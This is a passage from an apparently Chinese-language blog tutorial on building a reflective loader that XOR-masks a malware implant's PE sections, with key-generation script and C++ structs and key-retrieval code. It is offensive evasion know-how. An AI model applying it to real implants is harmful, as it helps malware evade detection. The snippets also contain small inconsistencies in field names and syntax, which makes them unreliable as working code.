 

至于遮掩所用到的密钥，这里采用随机生成的可变长度密钥

```perl
sub generate_random_bytes {
    local('$i @bytes');
    @bytes = @();
    for ($i = 0; $i < $1; $i++) {
        push(@bytes, chr(rand(255)));
    }
    return join('', @bytes);
}
```



为了确保loader可以检索到这些密钥，我们需将这些密钥的长度值放在`PE_HEADER_DATA`结构中(自定义PE头)，然后在PE_HEADER_DATA后面创建一个缓冲区用于存放密钥

```cpp
typedef struct _PE_HEADER_DATA {
   […SNIP…]
  DWORD TextSectionXORKeyLength;
  DWORD RdataSectionXORKeyLength;
  DWORD DataSectionXORKeyLength;
} PE_HEADER_DATA, *PPE_HEADER_DATA
```

![img](浅谈UDRL/diagram_xor-keys-layout-1024x94.png)

​	

在UDRL中，我们创建了一个`KEY_INFO`结构来存储KEY的长度和地址，然后将其集合到`XOR_KEYS`结构中，表示每个节对应的密钥信息

```cpp
typedef struct _KEY_INFO {
	size_t KeyLength;
	char* Key;
} KEY_INFO, *PKEY_INFO;

typedef struct _XOR_KEYS {
	KEY_INFO TextSection;
	KEY_INFO RdataSection;
	KEY_INFO DataSection;
} XOR_KEYS, *PXOR_KEYS;
```



下述代码为loader检索每个节密钥的过程：

```cpp
PPE_HEADER_DATA peHeaderData = (PPE_HEADER_DATA)rawDllBaseAddress; 
XOR_KEYS xorKeys;
xorKeys.TextSection.key = rawDllBaseAddress + sizeof(PE_HEADER_DATA);
xorKeys.TextSection.keyLength = peHeaderData->TextSectionXORKeyLength;
xorKeys.RdataSection.key = xorKeys.TextSection.key + peHeaderData->TextSectionXORKeyLength;
xorKeys.RdataSection.keyLength = peHeaderData->RdataSectionXORKeyLength;
xorKeys.DataSection.key = xorKeys.RdataSection.key + peHeaderData->RdataSectionXORKeyLength;
xorKeys.DataSection.keyLength = peHeaderData->DataSectionXORKeyLength;
```
